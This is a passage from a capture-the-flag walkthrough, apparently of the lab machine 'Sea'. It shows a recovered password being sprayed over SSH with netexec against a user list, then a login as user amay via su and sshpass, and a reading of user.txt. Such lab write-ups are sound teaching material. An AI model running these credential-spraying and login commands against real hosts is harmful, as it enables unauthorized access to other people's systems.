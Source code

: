 The password is “mychemicalromance”.

### Identify User

A quick way to check this password against users on the box is with `netexec` (though if they all fail, it’s worth trying again with `su` as it’s possible that the password is good but the login fails for some other reason).

```

oxdf@hacky$ netexec ssh sea.htb -u users -p mychemicalromance --continue-on-success
SSH         10.10.11.28     22     sea.htb          [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
SSH         10.10.11.28     22     sea.htb          [-] geo:mychemicalromance Authentication failed.
SSH         10.10.11.28     22     sea.htb          [+] amay:mychemicalromance  (non root) Linux - Shell access!
SSH         10.10.11.28     22     sea.htb          [-] root:mychemicalromance Authentication failed.

```

The password works for amay.

### su / SSH

The password works with `su`:

```

www-data@sea:/$ su - amay
Password: 
amay@sea:~$

```

It also works over SSH:

```

oxdf@hacky$ sshpass -p mychemicalromance ssh amay@sea.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)
...[snip]...
amay@sea:~$ 

```

And I can grab `user.txt`:

```

amay@sea:~$ cat user.txt
cd47aa3f************************

```

## Shell as root

